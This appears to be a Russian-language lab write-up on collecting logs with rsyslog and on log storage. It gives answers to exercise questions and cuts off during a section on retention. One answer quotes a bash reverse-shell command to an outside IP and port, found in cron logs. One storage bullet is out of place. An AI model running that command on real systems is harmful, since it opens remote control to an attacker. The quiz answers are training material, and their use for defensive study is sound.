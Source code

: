 ### Ответьте на вопросы ниже
После настройки rsyslog для sshd какое имя пользователя постоянно появляется в журналах sshd в 
/var/log/websrv-02/rsyslog_sshd.log, указывая на неудачные попытки входа или брутфорс? 
```commandline
stansimon
```
Каков IP-адрес SIEM-02 на основе файла конфигурации rsyslog /etc/rsyslog.d/99-websrv-02-cron.conf, который 
используется для мониторинга сообщений cron? 
```commandline
10.10.10.101
```
На основании сгенерированных журналов в /var/log/websrv-02/rsyslog_cron.log, какая команда выполняется пользователем 
root? 
```commandline
/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"
```

## Задание 5
Хранение журналов

Журналы могут храниться в разных местах, например, в локальной системе, которая их генерирует, в централизованном 
репозитории или в облачном хранилище. 

Выбор места хранения обычно зависит от нескольких факторов:
- Полностью зеленый операционный сервер	
- Требования безопасности: обеспечение хранения журналов в соответствии с организационными или нормативными 
  протоколами безопасности.
- Требования к доступности: то, насколько быстро и кому должен быть предоставлен доступ к журналам, может влиять на 
  выбор хранилища.
- Емкость хранилища: объем генерируемых журналов может потребовать значительного пространства для хранения, что 
  влияет на выбор решения для хранения.
- Факторы стоимости: выбор между облачными или локальными решениями может зависеть от бюджета на хранение журналов.
- Нормы соответствия: Конкретные отраслевые нормы, регулирующие хранение журналов, могут влиять на выбор хранилища.
- Политика хранения: Требуемое время хранения и простота извлечения могут повлиять на процесс принятия решений.
- Планы аварийного восстановления: обеспечение доступности журналов даже в случае сбоя системы может потребовать 
  специальных решений для хранения данных.

#### Сохранение журнала

Важно понимать, что хранение журналов не бесконечно. Поэтому необходим разумный баланс между сохранением журналов 
для потенциальных будущих нужд и стоимостью хранения. Понимание концепций горячего, теплого и холодного хранения 
может помочь в принятии решения:  
